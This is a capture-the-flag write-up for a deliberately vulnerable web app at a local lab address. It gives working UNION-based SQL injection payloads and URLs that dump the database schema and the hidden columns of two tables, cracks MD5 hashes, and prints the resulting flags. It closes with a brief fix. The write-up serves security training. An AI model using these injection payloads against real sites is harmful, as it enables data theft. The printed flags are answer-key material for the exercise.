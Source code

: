 # SQL injection
## Table users
The member search page allows SQL injection.
http://192.168.99.100/?page=member

Searching for user ID 5 returns the following: `First name: Flag \n Surname: GetThe`. ID 4 and 6 don't exist.

Putting the following query in the member search input will get us the DB schema:
`1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#
This reveals that the users table has the following columns:
`user_id, first_name, last_name, town, country, planet, Commentaire, countersign`

The following query will reveal something about GetThe Flag (the second query needs to have exactly 2 columns):
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM users WHERE 1=1`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+WHERE+1%3D1&Submit=Submit#
Commentaire: `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
countersign: `5ff9d0165b4f92b14994e5c685cdce28`
Looks like hex but that only returns garbage. Paste into Google and you get a few results for reverse MD5 hashes. It decodes as `FortyTwo`.
https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28

sha256(`fortytwo`) =>
Flag: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Table list_images
With the link above we can find out that there is a table called `list_images`:
(http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#)

Its schema is:
`id, url, title, comment`

This table is in a different database so we need to use a different URL (`page=searchimg`) to inject it. The interesting data is in the `comment` column.
http://192.168.99.100/?page=searchimg&id=1+AND+1%3D2+UNION+SELECT+comment%2C+title+FROM+list_images+WHERE+1%3D1&Submit=Submit#

ID 5's comment is `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

It decodes as `albatroz`: https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46
sha256(`albatroz`) =>
Flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

# How to fix
Use prepared statements or escape database input.
